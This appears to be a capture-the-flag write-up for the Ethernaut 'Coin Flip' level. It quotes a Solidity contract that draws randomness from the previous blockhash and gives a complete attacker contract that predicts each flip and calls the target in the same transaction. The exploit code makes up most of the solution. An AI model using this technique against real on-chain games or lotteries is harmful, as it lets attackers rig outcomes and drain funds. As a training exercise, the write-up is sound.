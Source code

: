 # Coin Flip Contract

>Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

>To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

>Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution
The CoinFlip contract uses the current blockhash to determine wether or not it is heads or tails so we need a way to get the blockhash and determine that before the contract does.
We will need to use the Remix IDE to create our own contract that calls this one. This contract will look exactly like the CoinFlip contract with the exception of adding:

```
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}


address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E;
ICoinFlip(hackedContract).flip(_guess);
ICoinFlip(hackedContract).flip(!_guess);
```

You can see the implementation in the following:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract HackCoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E; // ethernaut CoinFlip address

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      ICoinFlip(hackedContract).flip(_guess);
      return true;
    } else {
        ICoinFlip(hackedContract).flip(!_guess);
      consecutiveWins = 0;
      return false;
    }
  }
}
```

This contract creates an interface that connects our contract to the external contract. The name of the functions and types need to match the external contract:
```
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

Then we are adding the contract address of coinflip which the interface will use to check for the flip() function:
```
address hackedContract = 0x4E502dEeCf2ef4229aaFf5BEfc6545991ea2935E;
```

This part is where we call the flip contract no matter the outcome. Because our contract is calling the CoinFlip contract within the same transaction, the blockhash is the same for both our contract and the CoinFlip contract. So we run the flip() function ourself and whatever the answer we get, we will send that down to CoinFlip:
```
ICoinFlip(hackedContract).flip(_guess);
```

## What I learned:
1. Connecting to an external contract to call functions.
2. How using blockhash or anything that is attached to the current transaction is not a good for randomization since this can be manipulated.
